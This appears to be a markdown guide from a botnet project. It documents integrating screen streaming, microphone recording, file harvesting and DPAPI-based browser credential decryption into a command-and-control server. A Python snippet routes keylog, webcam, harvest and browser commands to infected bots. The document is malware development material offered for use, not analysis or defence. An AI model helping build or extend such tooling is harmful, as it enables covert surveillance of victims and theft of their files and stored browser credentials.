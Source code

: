 # 🚀 Advanced Features Integration Guide

## 📋 Overview

Successfully ported **4 major features** from `control_computer/bot.py` into the C2C server architecture:

1. **🎥 Real-time Screen Streaming** - Live screen capture with quality/FPS control
2. **🎤 Audio Recording** - Microphone recording with device selection
3. **📁 Advanced File Harvesting** - Smart file collection and filtering
4. **🔐 Windows DPAPI Integration** - Browser data decryption

## 📁 New Files Created

### Core Modules:
```
payload/modules/
├── screen_streaming.py      # Real-time screen streaming
├── audio_recorder.py        # Audio recording capabilities
├── file_harvester.py        # Advanced file collection
└── advanced_features.py     # Integration manager

utils/
└── dpapi_crypto.py          # Windows DPAPI for browser data
```

## 🔧 Integration with Existing Server

### 1. Import the Advanced Features Manager

```python
# In your main server file (e.g., core/server.py or botnet/manager.py)
from payload.modules.advanced_features import create_advanced_features_handler

class BotnetManager:
    def __init__(self):
        # Create advanced features handler
        self.advanced_handler, self.advanced_manager = create_advanced_features_handler(
            send_callback=self.send_to_client
        )
        
    def send_to_client(self, data):
        """Send data to connected client"""
        # Your existing send mechanism
        pass
        
    def handle_bot_command(self, bot_id, command, params=None):
        """Enhanced command handler"""
        # Check if it's an advanced feature command
        if command.startswith(('stream_', 'audio_', 'harvest_', 'browser_', 'keylog_', 'webcam_', 'sysinfo_')):
            return self.advanced_handler(command, params)
            
        # Handle other existing commands
        return self.handle_legacy_command(bot_id, command, params)
```
